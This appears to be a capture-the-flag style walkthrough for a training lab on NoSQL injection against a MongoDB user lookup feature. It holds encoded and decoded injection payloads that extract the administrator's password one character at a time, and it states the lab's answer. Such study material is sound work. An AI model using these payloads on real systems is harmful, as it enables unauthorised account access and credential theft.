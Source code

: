 # Exploiting NoSQL injection to extract data
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, extract the password for the administrator user, then log in to their account.\
\
You can log in to your own account using the following credentials: `wiener:peter`.

# Solution
## Analysis
The lookup functionality allows to retrieve account information from database:
|![](Images/image-11.png)|
|:--:| 
| *User lookup request* |
|![](Images/image-12.png)|
| *User lookup response* |

Moreover it allows to retrieve information about other users:
|![](Images/image-13.png)|
|:--:| 
| *Administrator account infromation* |

Using the following payload it is possible to retieve user's password (letter by letter):
```
Encoded: /user/lookup?user=wiener'+%26%26+this.password[0]%3d%3d'p'+||+'a'%3d%3d'b 
Decoded: /user/lookup?user=wiener' && this.password[0]=='p' || 'a'=='b 
```

|![](Images/image-14.png)|
|:--:| 
| *Correct letter* |
|![](Images/image-15.png)|
|:--:| 
| *Wrong letter* |

## Determining password length
```
Encoded: /user/lookup?user=administrator'+%26%26+this.password.length>5+||+'a'%3d%3d'b
Decoded: /user/lookup?user=administrator' && this.password.length>5 || 'a'=='b
```

|![](Images/image-16.png)|
|:--:| 
| *Password length check* |

|![](Images/image-17.png)|
|:--:| 
| *Payload position* |
|![](Images/image-18.png)|
| *Payload settings* |
|![](Images/image-19.png)|
| *Result - password length is 8 characters long* |

## Password enumeration

|![](Images/image-20.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-21.png)|
| *Payload settings* |
|![](Images/image-22.png)|
| *Payload settings* |
|![](Images/image-23.png)|
| *Result - password is fkyppptq*|
